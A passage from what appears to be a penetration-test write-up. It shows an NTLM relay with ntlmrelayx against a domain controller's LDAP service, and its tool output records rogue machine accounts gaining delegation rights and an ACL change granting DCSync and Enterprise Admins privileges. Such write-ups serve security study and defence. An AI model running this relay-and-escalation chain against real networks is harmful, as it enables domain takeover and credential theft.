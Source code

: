 The command flags break down as follows:

- `-t ldap://dc-server01.corp.local:389`: Target the LDAP service on the domain controller
- `--delegate-access`: Attempt to configure delegation rights on created computer accounts 
- `--no-smb-server`: Don't start an SMB server, as we're using Responder for credential capture

### Successful Relay and Computer Account Creation

After running the relay setup for some time, I captured and successfully relayed an authentication attempt from a workstation account:

```
[*] HTTPD(80): Connection from 192.168.0.99 controlled, attacking target ldap://dc-server01.corp.local:389
[*] HTTPD(80): Authenticating against ldap://dc-server01.corp.local:389 as CORP\WORKSTATION-690$ SUCCEED
[*] Enumerating relayed user's privileges. This may take a while on large domains
```

The relay was successful, and ntlmrelayx automatically attempted to leverage this access by creating computer accounts:

```
[*] Adding a machine account to the domain requires TLS but ldap:// scheme provided. Switching target to LDAPS via StartTLS
[*] Attempting to create computer in: CN=Computers,DC=corp,DC=local
[*] Adding new computer with username: ATTACKER-PC01$ and password: s0m3p455w0rd result: OK
[*] Delegation rights modified succesfully!
[*] ATTACKER-PC01$ can now impersonate users on WORKSTATION-690$ via S4U2Proxy
[*] Adding new computer with username: ATTACKER-PC02$ and password: s0m3p455w0rd result: OK
[*] Delegation rights modified succesfully!
[*] ATTACKER-PC02$ can now impersonate users on WORKSTATION-690$ via S4U2Proxy
```

This was critical - the tool successfully created two machine accounts with delegation rights, meaning they could impersonate users on the targeted workstation through Resource-Based Constrained Delegation (RBCD).

The S4U2Proxy reference in the output refers to "Service for User to Proxy" - a Kerberos extension that allows a service to request tickets on behalf of users. While designed for legitimate scenarios like front-end web servers accessing backend resources, when misconfigured, it becomes a powerful privilege escalation vector.

### Escalating to DCSync Privileges

Even more importantly, the relay attack was able to modify domain ACLs to grant DCSync privileges to one of the created accounts:

```
[*] Enumerating relayed user's privileges. This may take a while on large domains
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Querying domain security descriptor
[*] Success! User ATTACKER-PC02$ now has Replication-Get-Changes-All privileges on the domain
[*] Try using DCSync with secretsdump.py and this user :)
[*] Saved restore state to aclpwn-20250514-052034.restore
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Adding user: ATTACKER-PC02$ to group Enterprise Admins result: OK
[*] Privilege escalation successful, shutting down...
```
